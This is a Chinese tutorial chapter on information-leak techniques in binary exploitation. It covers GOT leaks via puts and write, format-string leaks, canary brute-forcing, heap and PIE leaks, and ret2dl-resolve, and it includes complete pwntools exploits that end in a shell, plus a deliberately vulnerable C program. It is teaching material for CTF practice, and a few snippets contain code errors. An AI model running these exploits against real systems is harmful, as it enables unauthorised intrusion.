

## 9. 信息泄露技术

> 在开启了 ASLR（地址空间布局随机化）的现代系统上，libc、栈、堆的加载地址每次运行都会变化。想要完成 ret2libc、栈劫持、堆利用等攻击，第一步往往不是执行 shellcode，而是**泄露一个已知地址**，以此为锚点推算出整个内存布局。信息泄露是二进制利用中最关键的"桥梁"——它把一个看似无法预测的地址空间变成了可计算的已知量。

### 9.1 为什么需要信息泄露

#### 9.1.1 地址随机化保护机制回顾

现代 Linux 系统默认开启多层地址随机化：

| 保护机制 | 随机化范围 | 影响对象 | 关闭方式 |
|---------|----------|---------|---------|
| ASLR | libc、栈、堆、vdso | 所有动态库和运行时数据 | `echo 0 > /proc/sys/kernel/randomize_va_space` |
| PIE（Position Independent Executable） | 主程序自身加载基址 | ELF 代码段、数据段 | 编译时不加 `-pie` |
| Stack Canary | canary 值随机 | 栈上的金丝雀保护值 | 编译时不加 `-fstack-protector` |
| RELRO | GOT 表是否可写 | GOT/PLT 表的可写性 | Full RELRO 下 GOT 只读 |

开启 ASLR 时，libc 基址在 64 位系统上的熵为 28 位（低 12 位固定为 0），暴力猜测的成功概率仅为 1/2^28，不可靠。因此，**泄露是绕过 ASLR 的唯一稳定手段**。

#### 9.1.2 需要泄露的目标

```text
┌──────────────────────────────────────────────────┐
│              信息泄露目标层次图                      │
├──────────────────────────────────────────────────┤
│                                                  │
│  ┌─────────────┐   泄露后可推算                    │
│  │ libc 基址    │──→ system、"/bin/sh"、one_gadget  │
│  └─────────────┘                                  │
│  ┌─────────────┐   泄露后可推算                    │
│  │ 栈地址       │──→ 栈上数据、栈迁移目标            │
│  └─────────────┘                                  │
│  ┌─────────────┐   泄露后可推算                    │
│  │ 堆地址       │──→ 堆上对象、UAF 目标              │
│  └─────────────┘                                  │
│  ┌─────────────┐   泄露后可推算                    │
│  │ 程序基址(PIE)│──→ .bss、.data、GOT 表地址        │
│  └─────────────┘                                  │
│  ┌─────────────┐   泄露后可绕过                    │
│  │ Canary 值    │──→ 栈溢出不会触发 __stack_chk_fail │
│  └─────────────┘                                  │
└──────────────────────────────────────────────────┘
```

### 9.2 泄露 libc 基址

libc 基址是最常需要泄露的目标，因为几乎所有高价值函数（`system`、`execve`、`one_gadget`）都在 libc 中。

#### 9.2.1 原理：利用已解析的 GOT 表项

GOT（Global Offset Table）在程序首次调用外部函数后，会存储该函数在 libc 中的**真实绝对地址**。由于 libc 内部函数之间的偏移是固定的，只要泄露 GOT 表中任意一个函数的地址，就可以推算出 libc 基址：

```text
libc_base = leaked_addr - libc_function_offset
```

#### 9.2.2 方法一：通过 puts 泄露 GOT 表（ROP 链）

这是最经典、最通用的泄露方式。核心思路是构造 ROP 链调用 `puts(puts@GOT)`，让程序打印出 `puts` 函数的真实地址。

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln')

# ============ 第一步：泄露 libc 基址 ============
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# 假设存在栈溢出漏洞，偏移为 72 字节
payload = b'A' * 72
payload += p64(pop_rdi)            # pop rdi; ret —— 设置第一个参数
payload += p64(elf.got['puts'])    # rdi = puts@GOT（puts 的真实地址）
payload += p64(elf.plt['puts'])    # 调用 puts，打印 GOT 中存储的地址
payload += p64(elf.symbols['main']) # 返回 main，准备第二轮利用

p.sendlineafter(b'Input:', payload)

# 接收 puts 的真实地址
p.recvline()  # 跳过换行或垃圾数据
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f'puts@libc = {hex(puts_leak)}')

# 计算 libc 基址
libc_base = puts_leak - libc.symbols['puts']
log.success(f'libc_base = {hex(libc_base)}')

# ============ 第二步：执行攻击 ============
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'A' * 72
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendlineafter(b'Input:', payload2)
p.interactive()
```

**为什么选择 `puts` 而不是其他函数？**

- `puts` 是几乎所有程序都会调用的函数，GOT 表中一定有其条目
- `puts` 只需要一个参数（`rdi`），构造 ROP 链简单
- `puts` 会自动追加换行符，方便接收输出
- 相比 `printf`，`puts` 不受格式化字符 `%` 的干扰

**选择泄露哪个函数的 GOT 条目？**

| 函数 | 优点 | 缺点 | 推荐场景 |
|------|------|------|---------|
| `puts` | 单参数，输出可靠 | 输出遇到 `\x00` 截断 | 通用首选 |
| `printf` | 多参数可组合 | 格式化字符可能干扰输出 | 需要泄露多个地址 |
| `write` | 可指定输出长度，不截断 | 需要三个参数（fd, buf, len） | 地址含 `\x00` 时使用 |
| `read` | 可写入数据到指定地址 | 需要控制输入 | 需要同时读写时 |

#### 9.2.3 方法二：通过 write 泄露（处理含 `\x00` 的地址）

当 `puts` 泄露的地址包含空字节（`\x00`）时，`puts` 会在空字节处截断，导致泄露不完整。此时应使用 `write` 函数，它可以精确指定输出长度。

```python
# 使用 write(1, puts_got, 8) 泄露 8 个字节
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload = b'A' * 72
payload += p64(pop_rdi)
payload += p64(1)                  # fd = stdout
payload += p64(pop_rsi)
payload += p64(elf.got['puts'])    # buf = puts@GOT
payload += p64(0)                  # r15 垃圾值（pop rsi; pop r15; ret）
payload += p64(elf.plt['write'])   # 调用 write
payload += p64(elf.symbols['main'])

p.sendline(payload)
puts_leak = u64(p.recv(8))  # 精确接收 8 字节
```

#### 9.2.4 方法三：通过 printf 格式化字符串泄露

如果程序存在格式化字符串漏洞（直接 `printf(user_input)`），无需 ROP 链即可泄露 GOT 表项。

```python
from pwn import *

p = process('./fmt_vuln')
elf = ELF('./fmt_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 方式 A：泄露栈上的 libc 地址
# 程序调用 printf 时，栈上通常残留 libc 函数的返回地址
p.sendline(b'%7$p')  # 尝试不同偏移
leak = int(p.recvline().strip(), 16)

# 方式 B：直接泄露 GOT 表项（需要配合地址写入或直接使用 %s）
# 先用 %n 写入 GOT 地址到栈上，再用 %s 读取
# 或者如果 GOT 地址已经在栈上：
p.sendline(b'%3$s' + b'AAAA' + p64(elf.got['puts']))
puts_leak = u64(p.recvuntil(b'AAAA', drop=True).ljust(8, b'\x00'))

# 方式 C：使用 pwntools 的 fmtstr 自动化
payload = fmtstr_payload(offset=6, writes={elf.got['puts': libc_base + libc.symbols['system']})
```

#### 9.2.5 方法四：利用 DynELF 自动化泄露

pwntools 提供的 `DynELF` 类可以自动遍历 libc 的符号表，在不知道 libc 版本的情况下解析任意函数地址。

```python
from pwn import *

def leak(addr):
    """提供一个泄露函数：读取 addr 处的字节直到遇到 \x00"""
    payload = b'A' * 72
    payload += p64(pop_rdi)
    payload += p64(addr)
    payload += p64(elf.plt['puts'])
    payload += p64(elf.symbols['main'])
    p.sendline(payload)
    data = p.recvuntil(b'\n', drop=True)
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
log.success(f'system = {hex(system_addr)}')

# 但 DynELF 需要多次交互，速度较慢
# 现代 CTF 和实战中更推荐：泄露一个 GOT 地址 → 匹配 libc 版本 → 计算偏移
```

#### 9.2.6 libc 版本识别与数据库

泄露到地址后，需要确定 libc 版本来计算偏移。常用方法：

```bash
# 方法 1：使用 libc-database（本地）
git clone https://github.com/niklasb/libc-database.git
cd libc-database
# 基于 puts 地址的低 12 位（后 3 位十六进制）查找
./find puts 2a0
# 输出：/lib/x86_64-linux-gnu/libc-2.31.so (id: ubuntu-focal-amd64)

# 方法 2：使用 libc.rip（在线 API）
curl -X POST https://libc.rip/api/find \
  -H "Content-Type: application/json" \
  -d '{"symbols":{"puts":"0x82a00"}}'

# 方法 3：pwntools 内置（需要本地有 libc 数据库）
from pwn import *
libc = ELF('./libc-2.31.so')  # 从数据库获取
```

**libc.rip API 返回示例：**

```json
[
  {
    "id": "libc6_2.31-0ubuntu9.16_amd64",
    "symbols": {
      "puts": "0x86a00",
      "system": "0x55410",
      "str_bin_sh": "0x1b75aa"
    }
  }
]
```

### 9.3 泄露栈地址

栈地址泄露在以下场景中至关重要：
- **栈迁移（Stack Pivot）**：需要知道目标栈的精确地址
- **栈上数据定位**：需要计算 canary、saved rbp、返回地址的偏移
- **SROP（Sigreturn-Oriented Programming）**：需要在栈上布置 `sigcontext` 结构

#### 9.3.1 通过格式化字符串泄露 RBP/栈地址

```python
# 函数调用时，saved RBP 指向调用者的栈帧
# 通过格式化字符串泄露 %6$p（偏移根据具体情况调整）
p.sendline(b'%6$p')
saved_rbp = int(p.recvline().strip(), 16)
stack_addr = saved_rbp - 某个已知偏移
log.success(f'stack = {hex(stack_addr)}')
```

#### 9.3.2 通过 libc 中的 __libc_argv 或 environ

`environ` 指针存储在 libc 中，但它指向栈上（存放环境变量的位置）。泄露 `environ` 的值就能得到栈地址：

```python
# 泄露 libc 中的 environ 指针
environ_offset = libc.symbols['environ']  # 或用 libc.search(b'ENVIRON')
environ_addr = libc_base + environ_offset

# 通过 ROP 调用 puts(environ_addr) 或 read 操作
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(environ_addr)
payload += p64(elf.plt['puts'])
p.sendline(payload)

stack_environ = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f'environ (stack) = {hex(stack_environ)}')

# environ 位于 main 函数栈帧上方，通过偏移可以计算任意栈位置
# 例如：返回地址 = environ - 偏移量
```

### 9.4 泄露堆地址

堆地址泄露在高级堆利用中不可或缺：
- **tcache poisoning / fastbin attack**：需要知道目标 chunk 的地址
- **堆喷射（Heap Spray）**：需要预测对象布局
- **House 系列攻击**：各类堆利用技巧都依赖精确的堆地址

#### 9.4.1 通过堆上残留指针泄露

许多程序在堆上存储了堆指针（如链表节点的 `next` 指针、对象的虚表指针）。如果能读取堆上数据，就能获取堆地址。

```python
# 假设存在 UAF（Use After Free），free 后的 chunk 未清零
# tcache 的 fd 指针指向下一个空闲 chunk
# 通过 UAF 读取 fd 指针即可获得堆地址

# 步骤：
# 1. 分配一个 chunk A
# 2. 释放 chunk A（进入 tcache）
# 3. 再次读取 chunk A 的内容
# 4. 读到的 fd 值就是下一个空闲 chunk 的堆地址

p.sendlineafter(b'> ', b'1')  # 分配
p.sendlineafter(b'size: ', b'64')
p.sendlineafter(b'data: ', b'hello')

p.sendlineafter(b'> ', b'3')  # 释放
p.sendlineafter(b'index: ', b'0')

p.sendlineafter(b'> ', b'2')  # 读取（UAF）
heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f'heap = {hex(heap_leak)}')
```

#### 9.4.2 通过 unsorted bin 泄露

当释放的 chunk 大于 tcache 最大容量（0x410）时，会进入 unsorted bin。unsorted bin 使用双向链表，`fd` 和 `bk` 指针指向 `main_arena + 96`（libc 数据段中的地址），这同时泄露了 **libc 基址**和**堆地址**。

```python
# 大块释放后，fd/bk 指向 main_arena
# 这是泄露 libc 基址的另一种经典方法
large_size = 0x500  # 超过 tcache 最大容量

alloc(large_size)
free(0)
# 此时 chunk 的 fd 和 bk 都指向 main_arena + 96
leak = read(0)
libc_leak = u64(leak[0:8])       # fd = main_arena + 96
# 注意：这里同时隐含了堆地址信息（如果 chunk 有其他字段）
```

### 9.5 泄露程序基址（PIE 绕过）

PIE（Position Independent Executable）使程序自身的代码段和数据段地址随机化。泄露程序基址后可以确定 GOT 表、`.bss` 段、任意函数的绝对地址。

#### 9.5.1 PIE 地址特征

PIE 程序的基址格式为 `0x55xxxxxxxxxx` 或 `0x56xxxxxxxxxx`（64 位），低 12 位（页内偏移）保持不变。通过泄露一个程序内的地址（如某个函数的返回地址），减去其在文件中的偏移，即可得到程序基址。

#### 9.5.2 通过格式化字符串泄露返回地址

```python
# 格式化字符串泄露栈上的返回地址
# 返回地址 = 程序内某个函数地址（因为 PIE 只随机化基址，内部相对偏移不变）
p.sendline(b'%11$p')
ret_addr = int(p.recvline().strip(), 16)

# 计算程序基址
# 需要知道这个返回地址对应的是哪个函数
prog_base = ret_addr - elf.symbols['vuln']  # 或其他已知偏移
log.success(f'program base = {hex(prog_base)}')

# 现在可以计算 GOT 表地址
got_addr = prog_base + elf.got['printf']
```

#### 9.5.3 通过栈上残留地址泄露

```python
# 函数调用时，栈上会保存返回地址（指向程序内部）
# 如果能通过栈溢出读取栈上数据（例如覆盖后未清空的栈帧）
# 就可以获取 PIE 内地址

# 某些情况下的 partial read 漏洞：
# 读取 0x100 字节的栈数据，其中包含多个返回地址
# 取任意一个减去已知偏移即可
```

### 9.6 泄露栈 Canary

栈 Canary 是编译器在栈帧中插入的随机值，位于返回地址之前。如果 Canary 被篡改，程序会调用 `__stack_chk_fail` 终止执行。泄露 Canary 是绕过栈保护的前提。

#### 9.6.1 Canary 的结构特点

```text
64 位 Canary 结构：
  字节 0: 固定为 \x00（防止被 puts/printf 泄露）
  字节 1-7: 随机值

32 位 Canary 结构：
  字节 0: 固定为 \x00
  字节 1-3: 随机值
```

由于最低字节是 `\x00`，`puts` 和 `printf("%s")` 会在此处停止输出，这是有意设计的安全特性。

#### 9.6.2 通过逐字节爆破泄露 Canary（32 位）

在 32 位系统上，Canary 只有 4 字节（其中 1 字节已知为 `\x00`），剩余 3 字节共 2^24 = 16M 种可能。如果程序是 fork 服务器（每次连接 fork 一个子进程），Canary 值不会变化，可以逐字节爆破：

```python
from pwn import *

def brute_canary():
    canary = b'\x00'  # 最低字节已知
    for i in range(1, 4):  # 爆破剩余 3 字节
        for byte in range(256):
            p = remote('target', 1337)  # 或 process('./fork_server')
            payload = b'A' * 64 + canary + bytes([byte])
            p.send(payload)
            
            response = p.recv(timeout=1)
            if b'Stack' not in response and p.poll() is None:
                canary += bytes([byte])
                log.info(f'Canary byte {i}: {hex(byte)}')
                p.close()
                break
            p.close()
    
    log.success(f'Canary = {hex(u32(canary))}')
    return canary
```

**为什么只能用于 fork 服务器？** Fork 的子进程继承父进程的 Canary 值，因此每次连接的 Canary 相同。如果是多线程服务器或 ASLR 每次刷新，每次连接 Canary 都不同，无法爆破。

#### 9.6.3 通过格式化字符串泄露 Canary

```python
# 如果存在格式化字符串漏洞，且 Canary 在栈上的偏移已知
# 可以直接读取
p.sendline(b'%9$p')  # 根据栈布局确定偏移
canary = int(p.recvline().strip(), 16)
log.success(f'Canary = {hex(canary)}')
```

#### 9.6.4 通过覆盖 `__stack_chk_fail` 的 GOT 表项

如果 GOT 表可写（Partial RELRO），可以覆写 `__stack_chk_fail@GOT` 为无害地址（如 `ret` 指令或 `main` 函数），使 Canary 检查失效：

```python
# 通过格式化字符串覆写 __stack_chk_fail@GOT
payload = fmtstr_payload(offset=6, writes={
    elf.got['__stack_chk_fail']: elf.symbols['main']
})
p.sendline(payload)
# 之后的栈溢出即使破坏了 Canary，也不会终止程序
```

### 9.7 泄露的实际利用流程

一个完整的二进制利用通常遵循以下流程：



### 9.8 完整实战示例

以下是一个完整的从泄露到 getshell 的实战示例，模拟一个典型的 CTF PWN 题目：

#### 9.8.1 目标程序（C 源码）

```c
// vuln.c — 编译: gcc -o vuln vuln.c -no-pie -fno-stack-protector
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vuln() {
    char buf[64];
    write(1, "Input: ", 7);
    read(0, buf, 256);  // 栈溢出：读取 256 字节到 64 字节的缓冲区
}

int main() {
    vuln();
    return 0;
}
```

编译命令（关闭 PIE，保留 ASLR）：

```bash
gcc -o vuln vuln.c -no-pie -fno-stack-protector -z noexecstack
```

#### 9.8.2 漏洞分析

```bash
# 检查保护机制
checksec vuln
# [*] '/tmp/vuln'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary found
#     NX:       NX enabled          ← 不能直接执行 shellcode
#     PIE:      No PIE              ← 程序基址固定
#     RWX:      Has RWX segments

# 计算溢出偏移
# 64 字节 buf + 8 字节 saved rbp = 72 字节后覆盖返回地址
```

#### 9.8.3 完整 Exploit

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln')

# ========== 阶段一：泄露 libc 基址 ==========
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]  # 栈对齐用

payload = b'A' * 72
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])     # puts@GOT → puts 的真实地址
payload += p64(elf.plt['puts'])     # 调用 puts 打印
payload += p64(elf.symbols['vuln']) # 返回 vuln，准备第二轮

p.sendlineafter(b'Input: ', payload)

# 接收泄露数据
p.recvline()  # 换行
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = puts_leak - libc.symbols['puts']

log.success(f'puts@libc   = {hex(puts_leak)}')
log.success(f'libc_base   = {hex(libc_base)}')
log.success(f'system      = {hex(libc_base + libc.symbols["system"])}')

# ========== 阶段二：ret2libc getshell ==========
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# 栈对齐：如果 libc 的 system 地址未对齐 16 字节，movaps 指令会触发 SIGSEGV
payload2 = b'A' * 72
payload2 += p64(ret)           # 额外的 ret 用于栈对齐
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendlineafter(b'Input: ', payload2)
p.interactive()  # 获得 shell
```

**关键细节：栈对齐问题**

在 64 位系统上调用 `system()` 时，libc 内部使用 `movaps` 指令（要求 16 字节对齐）。如果 ROP 链跳转时栈指针未 16 字节对齐，会触发 `SIGSEGV`。解决方法是在 ROP 链开头加一个额外的 `ret` 指令：

```python
# 不加 ret → 可能 segfault
payload = b'A' * 72 + p64(pop_rdi) + p64(addr) + p64(system)

# 加 ret → 栈对齐，稳定 getshell
payload = b'A' * 72 + p64(ret) + p64(pop_rdi) + p64(addr) + p64(system)
```

### 9.9 高级泄露技术

#### 9.9.1 Partial Overwrite（部分覆写）

当 PIE 开启时，地址的低 12 位是固定的（页内偏移不变）。可以只覆写地址的最低 1-2 字节，将其指向目标位置，而不需要知道完整的地址。

```python
# PIE 开启，但我们可以覆写返回地址的最低字节
# 假设当前返回地址指向 0x555555555199（main+xx）
# 只覆写最低字节 0x99 → 0x35，跳转到 0x555555555135（某个其他函数）
# 成功概率：1/16（修改 1 个 nibble）或 1/256（修改 1 字节）

payload = b'A' * 72 + b'\x35'  # 只覆写 1 字节
```

#### 9.9.2 ret2dl-resolve（延迟绑定攻击）

这是一种不需要泄露任何地址的高级技术，它利用动态链接器的符号解析机制，伪造重定向条目来解析任意函数：

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

# 使用 pwntools 的 Ret2dlResolve 自动化
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.read(0, dlresolve.data_addr)  # 将伪造的结构体写入 .bss
rop.ret2dlresolve(dlresolve)       # 触发解析

payload = b'A' * 72 + rop.chain()
p.sendline(payload)
p.sendline(dlresolve.payload)  # 发送伪造的 ELF 结构体
p.interactive()
```

**适用条件：** Partial RELRO（GOT 可写）、程序未开启 Full RELRO。

#### 9.9.3 IO_FILE 利用中的信息泄露

`_IO_FILE` 结构体中的 `vtable` 指针和各种缓冲区指针可以被利用来泄露信息或劫持控制流。在高版本 glibc（2.24+）中，`IO_validate_vtable` 增加了检查，但仍有一些绕过方法：

```python
# 利用 _IO_FILE 的 _IO_buf_base 和 _IO_buf_end
# 当程序调用 printf 等 IO 函数时，如果能控制 FILE 结构体
# 可以让 printf 输出任意内存中的内容

# 这在堆利用中比较常见（FSOP - File Stream Oriented Programming）
```

#### 9.9.4 SROP 中的信息泄露

Sigreturn-Oriented Programming 需要在栈上布置 `ucontext` 结构体。如果需要在栈上布置数据，通常需要先泄露栈地址来进行栈迁移：

```python
# SROP 基本流程：
# 1. 泄露栈地址（通过 libc 的 environ 或其他方式）
# 2. 在已知地址布置 sigcontext 结构体
# 3. 触发 sigreturn 系统调用
# 4. 恢复所有寄存器，跳转到目标代码

frame = SigreturnFrame()
frame.rax = 59           # sys_execve
frame.rdi = bin_sh_addr  # "/bin/sh"
frame.rsi = 0            # NULL
frame.rdx = 0            # NULL
frame.rip = syscall_ret  # syscall; ret
frame.rsp = known_stack  # 需要泄露的栈地址
```

### 9.10 常见错误与调试技巧

#### 9.10.1 泄露数据接收不完整

```python
# 错误：接收的数据包含额外换行或垃圾字节
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))

# 问题：如果输出中间有 \n，recvline 会提前截断
# 正确做法：使用 recvuntil 或 recv(8)
puts_leak = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))

# 更稳健：write 输出不会有这个问题
p.sendline(payload)
puts_leak = u64(p.recv(8))
```

#### 9.10.2 libc 基址计算错误

```python
# 错误：使用了错误的 libc 版本
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # 本地 libc

# 问题：目标服务器的 libc 版本不同
# 正确做法：
# 1. 先泄露一个地址
# 2. 用 libc-database 或 libc.rip 匹配
# 3. 下载正确的 libc 文件
libc = ELF('./libc-2.31.so')  # 从目标服务器获取
```

#### 9.10.3 ASLR 偏移记忆技巧

```bash
# 64 位 libc ASLR：低 12 位永远是 0x000
# 例如泄露到 0x7f123456a000 → 低 12 位 0x000

# PIE：低 12 位也固定
# 例如 .text 段偏移 0x1000 → 程序基址 = leaked - 0x1000

# 验证泄露是否正确：
# puts 在 libc 中的偏移末尾通常是 0x___a00（对齐到页边界附近）
# 如果泄露到的地址看起来不对，可能是接收逻辑有问题
```

#### 9.10.4 GDB 调试泄露过程

```python
# 在 exploit 中加入 GDB 调试
p = process('./vuln')
gdb.attach(p, '''
    break *vuln+50
    continue
''')
# 或者使用 pwntools 的 GDB 调试
input("Attach GDB and press Enter...")
p.sendline(payload)
```

```bash
# 在 GDB 中查看 GOT 表
(gdb) x/10gx 0x404000        # 查看 GOT 表内容
(gdb) info proc mappings     # 查看内存映射，验证 libc 基址
(gdb) p (void*)$rsp          # 查看当前栈指针
```

### 9.11 信息泄露防御机制与绕过总结

| 防御机制 | 防护内容 | 典型绕过方式 |
|---------|---------|-------------|
| ASLR | libc/栈/堆地址随机化 | GOT 泄露、格式化字符串、堆残留 |
| PIE | 程序基址随机化 | partial overwrite、返回地址泄露 |
| Stack Canary | 栈溢出检测 | 格式化字符串、逐字节爆破（fork）、覆盖 `__stack_chk_fail` |
| Full RELRO | GOT 表只读 | 不能 GOT 覆写，需要其他写原语 |
| Shadow Stack (CET) | 硬件返回地址保护 | 目前几乎没有实际绕过手段 |
| ARM64 PAC | 指针签名认证 | 需要签名密钥泄露或侧信道 |

### 9.12 进阶：自动化泄露框架

在实战中，可以将泄露逻辑封装为通用模块：

```python
from pwn import *

class LibcLeaker:
    """自动化 libc 基址泄露器"""
    
    def __init__(self, p, elf, overflow_offset):
        self.p = p
        self.elf = elf
        self.offset = overflow_offset
        self.rop = ROP(elf)
        self.pop_rdi = self.rop.find_gadget(['pop rdi', 'ret'])[0]
        self.ret = self.rop.find_gadget(['ret'])[0]
        self.libc_base = None
    
    def leak_via_puts(self, func_name='puts'):
        """通过 puts 泄露 GOT 表项"""
        payload = b'A' * self.offset
        payload += p64(self.pop_rdi)
        payload += p64(self.elf.got[func_name])
        payload += p64(self.elf.plt['puts'])
        payload += p64(self.elf.symbols['main'])
        
        self.p.sendline(payload)
        leak = u64(self.p.recvline().strip().ljust(8, b'\x00'))
        return leak
    
    def identify_libc(self, leaks: dict):
        """匹配 libc 版本"""
        import requests
        resp = requests.post('https://libc.rip/api/find', json={'symbols': leaks})
        results = resp.json()
        if results:
            log.success(f"匹配到 libc: {results[0]['id']}")
            return results[0]
        log.error("未找到匹配的 libc")
        return None
    
    def get_libc_base(self, func_name='puts'):
        """完整泄露流程"""
        leaked = self.leak_via_puts(func_name)
        log.info(f"{func_name} @ {hex(leaked)}")
        
        # 尝试本地 libc
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        self.libc_base = leaked - libc.symbols[func_name]
        
        # 验证：检查基址是否对齐
        if self.libc_base & 0xfff != 0:
            log.warning("libc 基址未页对齐，可能 libc 版本不匹配")
        
        return self.libc_base
    
    def build_ropchain(self, libc_path=None):
        """基于泄露结果构建 ROP 链"""
        if self.libc_base is None:
            self.get_libc_base()
        
        libc = ELF(libc_path) if libc_path else ELF('/lib/x86_64-linux-gnu/libc.so.6')
        system = self.libc_base + libc.symbols['system']
        bin_sh = self.libc_base + next(libc.search(b'/bin/sh'))
        
        payload = b'A' * self.offset
        payload += p64(self.ret)         # 栈对齐
        payload += p64(self.pop_rdi)
        payload += p64(bin_sh)
        payload += p64(system)
        return payload

# 使用示例
# leaker = LibcLeaker(p, elf, 72)
# leaker.get_libc_base()
# payload = leaker.build_ropchain('./libc-2.31.so')
# p.sendline(payload)
# p.interactive()
```

### 9.13 练习建议

1. **入门练习**：在本地关闭 ASLR（`echo 0 > /proc/sys/kernel/randomize_va_space`），先练习 ROP 链构造和 GOT 泄露，理解原理后再开启 ASLR
2. **进阶练习**：在 CTF 平台（如 BUUCTF、攻防世界）上做 PWN 题，从简单的 ret2libc 到格式化字符串 + 堆利用
3. **调试习惯**：每次泄露后用 GDB 的 `info proc mappings` 验证地址是否正确
4. **版本匹配**：熟练使用 libc-database 和 libc.rip，建立本地 libc 数据库
5. **自动化**：将泄露逻辑封装成函数，避免每次重复编写

***

> **本节核心要点**：信息泄露是现代二进制利用的"第一步"。掌握 GOT 泄露、格式化字符串泄露、Canary 爆破三种核心技术，理解 libc/栈/堆/PIE 四种泄露目标的原理和方法，就能应对绝大多数 CTF 和实际漏洞利用场景。泄露的地址需要配合正确的 libc 版本和偏移计算才能转化为攻击能力——永远验证你的计算结果。
